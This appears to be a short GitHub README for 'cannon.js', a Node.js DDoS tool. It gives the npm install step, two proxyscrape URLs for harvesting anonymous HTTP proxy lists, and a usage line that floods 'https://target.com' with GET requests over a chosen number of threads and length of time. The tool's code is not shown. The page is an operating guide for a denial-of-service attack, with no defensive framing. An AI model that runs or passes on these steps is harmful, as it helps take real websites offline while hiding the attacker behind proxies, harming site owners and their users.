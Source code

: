 ![ddos](https://user-images.githubusercontent.com/101634873/192137686-1f64af70-85ad-4516-92e6-7cf6f2f97a7d.png)

**Install Packages:**
```
npm install request
```
**Download Proxy:**
```
https://api.proxyscrape.com/v2/?request=displayproxies&protocol=http&timeout=1000000&country=all&ssl=all&anonymity=all
https://api.proxyscrape.com/?request=displayproxies&proxytype=http&timeout=1000000&anonymity=elite
```
**Example:** 
```
node cannon.js GET 4 https://target.com <threads> <time>
```
